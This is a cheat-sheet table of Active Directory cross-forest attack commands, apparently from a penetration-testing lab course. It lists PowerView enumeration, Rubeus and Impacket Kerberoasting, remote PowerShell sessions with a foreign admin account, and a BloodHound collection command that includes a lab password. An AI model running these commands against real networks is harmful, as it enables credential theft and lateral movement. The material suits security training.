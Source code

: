 
### Trust Relationships - Cross-Forest

| **Command** | **Description** |
|---|---|
| `Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName` | PowerView tool used to enumerate accounts for associated SPNs from a Windows-based host. |
| `Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc | select samaccountname,memberof` | PowerView tool used to enumerate the mssqlsvc account from a Windows-based host. |
| `.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap` | Uses Rubeus to perform a Kerberoasting Attack against a target Windows domain (/domain:FREIGHTLOGISTICS.local) from a Windows-based host. |
| `Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL` | PowerView tool used to enumerate groups with users that do not belong to the domain from a Windows-based host. |
| `Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator` | PowerShell cmd-let used to remotely connect to a target Windows system from a Windows-based host. |
| `GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley` | Impacket tool used to request (-request) the TGS ticket of an account in a target Windows domain (-target-domain) from a Linux-based host. |
| `bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2` | Runs the Python implementation of BloodHound against a target Windows domain from a Linux-based host. |
| `zip -r ilfreight_bh.zip *.json` | Used to compress multiple files into 1 single .zip file to be uploaded into the BloodHound GUI. |

---